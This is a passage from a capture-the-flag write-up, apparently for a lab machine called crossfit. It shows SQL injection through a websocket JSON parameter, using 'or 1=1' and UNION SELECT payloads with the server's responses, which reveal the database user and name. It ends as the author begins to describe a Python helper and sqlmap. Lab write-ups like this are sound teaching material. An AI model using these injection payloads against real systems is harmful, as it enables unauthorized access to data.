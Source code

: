 ```

> {"message":"available","params":"3 or 1=1 limit 1", "token": "c7b7380052ae1f879ea21abc2bccf2e6fbed9bd0591cef8a33ae4847646bb1a1"}
< {"status":"200","message":"Good news! This membership plan is available.","token":"6159bbf250c19fbee0b57c19557bcc63aa17df9420c03cfd60c26825b336cf2b","debug":"[id: 1, name: 1-month]"}

```

That worked! The `or 1=1` would make all the rows return, and then the `limit 1` just gets the top (since it’s almost certainly expecting only one). It actually works the same without the `limit`:

```

> {"message":"available","params":"3 or 1=1", "token": "6159bbf250c19fbee0b57c19557bcc63aa17df9420c03cfd60c26825b336cf2b"}
< {"status":"200","message":"Good news! This membership plan is available.","token":"276d1d23f8ff41e50b92813f3ea84dd6b0bc8751a98593ee2ef8dad4cf02d716","debug":"[id: 1, name: 1-month]"}

```

This is confirmed SQL injection.

#### Union Injection

First I’ll need to find the number of columns, and I correctedly guessed it was two:

```

> {"message":"available","params":"3 union select 1,2", "token": "276d1d23f8ff41e50b92813f3ea84dd6b0bc8751a98593ee2ef8dad4cf02d716"}
< {"status":"200","message":"Good news! This membership plan is available.","token":"f9b5fbc2a75ab1a5066af29319b5b6e57a990ffa1b010a03d7592336a26906bb","debug":"[id: 1, name: 2]"}

```

I can get things like the current user and current database:

```

> {"message":"available","params":"3 union select user(),database()", "token": "f9b5fbc2a75ab1a5066af29319b5b6e57a990ffa1b010a03d7592336a26906bb"}
< {"status":"200","message":"Good news! This membership plan is available.","token":"1f607be2cd84c55a7df548f93a8bf862c45639a81f518e3ad5cffdae091f9ebc","debug":"[id: crossfit_user@localhost, name: crossfit]"}

```

### SQLi Helpers

I’ll show two ways to exploit this SQL injection in websockets, first with a Python shell that allows me to easily send injections, and then using `sqlmap` and a custom `flask` proxy.

#### Python Loop

To exploit this, I’ll create a Python script to manually read in injections from me at the command line, and then print the result. I’ll use the `cmd` module to make a pretty terminal with up arrow for history support. The first attempt I made was:
